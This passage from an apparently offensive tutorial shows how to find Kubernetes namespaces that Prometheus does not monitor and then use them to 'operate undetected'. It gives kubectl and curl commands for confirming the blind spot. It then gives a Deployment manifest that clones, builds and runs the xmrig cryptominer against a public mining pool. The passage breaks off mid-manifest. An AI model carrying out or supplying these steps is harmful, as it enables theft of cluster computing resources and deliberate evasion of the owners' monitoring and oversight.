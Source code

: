 *   **Explanation:** This identifies namespaces where the monitoring agent is potentially not collecting metrics and logs.
*   **Why:**  This focuses our attention on areas where we can potentially operate undetected.

**Step 4: Verify Lack of Monitoring (Deploy a Pod in the Target Namespace)**

Deploy a simple pod in the potential blind spot namespace (`unmonitored-namespace` in our example) and verify that its logs and metrics are not being collected by the monitoring agent.

First create the `unmonitored-namespace`:

```bash
kubectl create namespace unmonitored-namespace
```

Then, deploy a simple nginx pod in the namespace:

```bash
kubectl run nginx-test --image=nginx -n unmonitored-namespace
```

Now check if Prometheus is collecting metrics about the pod:

```bash
curl "http://localhost:9090/api/v1/query?query=kube_pod_container_resource_limits{namespace='unmonitored-namespace'}"
```

*   **Explanation:** We deploy a simple pod to generate activity and then query the monitoring system to see if it's being monitored.
*   **Expected Output:** If the namespace is genuinely a blind spot, the Prometheus query should return no results. A `data: { resultType: "vector", result: [] }` response indicates that no metrics are being collected for pods in that namespace.
*   **Why:** This provides definitive proof that the namespace is not being monitored.

**Phase 2: Exploiting the Monitoring Blind Spot**

Now that we have identified a monitoring blind spot, we can exploit it to perform malicious activities without raising alarms.

**Step 5: Deploy a Malicious Pod (Cryptominer)**

Deploy a cryptocurrency miner pod in the `unmonitored-namespace`. This demonstrates resource abuse that would likely be detected if the namespace were being monitored.

```bash
kubectl apply -f - <<EOF
apiVersion: apps/v1
kind: Deployment
metadata:
  name: cryptominer
  namespace: unmonitored-namespace
spec:
  replicas: 1
  selector:
    matchLabels:
      app: cryptominer
  template:
    metadata:
      labels:
        app: cryptominer
    spec:
      containers:
      - name: cryptominer
        image: alpine/git
        command: ["/bin/sh"]
        args: ["-c", "git clone https://github.com/xmrig/xmrig.git && cd xmrig && mkdir build && cd build && cmake .. && make -j$(nproc) && ./xmrig --donate-level 1 -o pool.supportxmr.com:3333 -u YOUR_WALLET_ADDRESS -p x "]
        resources:
          requests:
```